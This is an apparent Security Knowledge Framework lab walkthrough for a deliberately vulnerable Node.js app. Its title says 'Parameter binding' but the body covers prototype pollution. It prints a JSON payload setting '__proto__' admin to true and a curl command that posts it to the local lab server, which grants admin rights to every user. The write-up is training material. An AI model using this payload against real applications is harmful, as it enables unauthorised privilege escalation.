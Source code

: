 # KBID 147 - Parameter binding

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

JavaScript is prototype-based: when new objects are created, they carry over the properties and methods of the prototype “object”, which contains basic functionalities such as toString, constructor and hasOwnProperty.

Object-based inheritance gives JavaScript the flexibility and efficiency that web programmers have come to love – but it also makes it vulnerable to tampering.

Malicious actors can make application-wide changes to all objects by modifying object, hence the name prototype pollution.

Interestingly, attackers don’t even need to directly modify object – they can access it through the ‘**proto**’ property of any JavaScript object. And once you make a change to object, it applies to all JavaScript objects in a running application, including those created after tampering.

Let's open the application, we have a login screen:

![](../../.gitbook/assets/nodejs/Prototype-Pollution/1.png)

Loggin in with user/user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/2.png)

We see this user has no Admin privileges, also we have a feature to send a message to an admin. Let's use this and check the request

![](../../.gitbook/assets/nodejs/Prototype-Pollution/3.png)

Post request with email and username as expected.
We also noticed in the homepage a functionality to create a new user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/5.png)

Login with the newly created user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/6.png)

## Exploitation

Let's try our prototype pollution payload in the /message route.

```json
{
  "__proto__": { "admin": true },
  "email": "evil@proto.pollution",
  "msg": "You have been hacked!"
}
```

To make it easier let's put this payload in a file called evil.json.
Now lets use to curl to request the application with evil.json

```text
curl -H "content-type: application/json" -d@evil.json http://localhost:5000/message
```

![](../../.gitbook/assets/nodejs/Prototype-Pollution/4.png)

We get a response back from the server. Let's refresh the page to see if it worked.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/7.png)

Success! We now have a user with admin privileges!

If we create another user we see the new user will also have admin set to True.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/8.png)

![](../../.gitbook/assets/nodejs/Prototype-Pollution/9.png)

## Additional sources

{% embed url="https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications" %}
